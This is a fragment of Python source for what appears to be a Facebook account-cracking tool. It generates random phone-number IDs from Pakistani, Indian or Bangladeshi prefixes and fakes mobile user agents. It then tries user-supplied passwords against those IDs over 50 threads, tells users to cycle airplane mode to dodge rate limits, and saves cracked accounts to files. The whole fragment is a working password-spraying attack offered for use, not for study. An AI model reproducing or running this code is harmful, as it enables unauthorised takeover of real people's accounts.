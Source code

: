     l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    jalan(logo)
    
    
    jalan("\033[1;37m\t  USE OUR COUNTRY CODE  ")
    jalan('\033[1;36m     \t     PAK CODES\n     \033[1;33m92301, \033[1;33m92302 ,\033[1;33m92303 ,\033[1;33m92305  ...\033[0;97m')
    jalan('\033[1;32m============================================')
    jalan('\033[1;36m     \t     INDIA CODES\n     \033[1;33m91778, \033[1;33m91930 ,\033[1;33m91902 ,\033[1;33m91712  ...\033[0;97m')
    jalan('\033[1;32m============================================')
    jalan('\033[1;36m     \t     BD CODES\n     \033[1;33m88016, \033[1;33m88017 ,\033[1;33m88018 ,\033[1;33m88019  ...\033[0;97m')
    jalan('\033[1;32m============================================\n')
    code = input(' PUT CODE : ')
    print("")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[*] Enter Password : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;36m TOTAL IDS: '+tl)
        print('\033[1;36m THE PROCESS HAS BEEN STARTED')
        print('\033[1;31m USE AEROPLANE MOOD IN EVERY 4 MIN ')
        print('\033[1;32m============================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;32m============================================')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print('\033[1;32m============================================')
 